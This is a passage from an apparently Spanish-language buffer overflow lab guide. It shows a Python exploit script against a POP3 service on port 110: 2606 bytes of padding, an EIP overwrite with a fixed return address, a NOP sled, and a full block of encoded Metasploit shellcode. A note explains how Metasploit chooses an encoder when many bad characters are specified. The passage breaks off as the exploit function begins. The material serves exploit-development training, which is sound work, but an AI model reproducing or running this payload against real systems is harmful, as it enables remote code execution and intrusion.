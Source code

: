 Nota: Si se especifican muchos badchars, es mejor no especificar explícitamente el encoder para que el metasploit tome un encoder que se adapte correctamente.

![Untitled](../assets/Buffer-Overflow/Lab1/Modificar-Shellcode/Untitled.png)

Ahora este shellcode se insertará en el script:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xd9\xc5\xd9\x74\x24\xf4\x5e\xba\x9b\x1a\x9f\xf1\x29\xc9"
b"\xb1\x44\x31\x56\x1a\x03\x56\x1a\x83\xee\xfc\xe2\x6e\xe6"
b"\x77\x73\x90\x17\x88\x14\x19\xf2\xb9\x14\x7d\x76\xe9\xa4"
b"\xf6\xda\x06\x4e\x5a\xcf\x9d\x22\x72\xe0\x16\x88\xa4\xcf"
b"\xa7\xa1\x94\x4e\x24\xb8\xc8\xb0\x15\x73\x1d\xb0\x52\x6e"
b"\xef\xe0\x0b\xe4\x5d\x15\x3f\xb0\x5d\x9e\x73\x54\xe5\x43"
b"\xc3\x57\xc4\xd5\x5f\x0e\xc6\xd4\x8c\x3a\x4f\xcf\xd1\x07"
b"\x06\x64\x21\xf3\x99\xac\x7b\xfc\x35\x91\xb3\x0f\x44\xd5"
b"\x74\xf0\x33\x2f\x87\x8d\x43\xf4\xf5\x49\xc6\xef\x5e\x19"
b"\x70\xd4\x5f\xce\xe6\x9f\x6c\xbb\x6d\xc7\x70\x3a\xa2\x73"
b"\x8c\xb7\x45\x54\x04\x83\x61\x70\x4c\x57\x08\x21\x28\x36"
b"\x35\x31\x93\xe7\x93\x39\x3e\xf3\xae\x63\x55\x02\x3d\x1e"
b"\x1b\x04\x3d\x21\x0c\x6d\x0c\xaa\xc3\xea\x91\x79\xa0\x15"
b"\x70\xa8\xdd\xbd\x2c\x39\x5c\xa0\xcf\x97\xa3\xdd\x53\x12"
b"\x5c\x1a\x4b\x57\x59\x66\xcc\x8b\x13\xf7\xb8\xab\x80\xf8"
b"\xe9\xdc\x49\x70\x74\x6f\xe5\x16\x13\xe3\x65\xc7\x92\xbe"
b"\x2d\x2f\x6a\x24\xb9\x02\x3d\xc4\x2f\x38\xa2\x7c\x90\x8c"
b"\x41\x09\xfe\x47\xec\x93\xbd\x0b\x87\x36\x2c\xa0\x7e\x97"
b"\xd4\x27\xf7\x89\x78\xd7\x96\x31\xf2\x53\x2a\xd3\x9a\xfc"
b"\xe2\x04\x0b\x77\x86\x3a\xf1\x58\x49\x8a\x3c\x95\xbb\xdd"
b"\x08\xe1\xed\x2d\x5b\x20\xc1\x7d\x8c\x12\x72\x50\xa2\xe1"
b"\x45\x8b\x6b\x06")

payload = before_eip + eip + b"\x90"*20 + shellcode

def exploit():
    # Create a socket
```
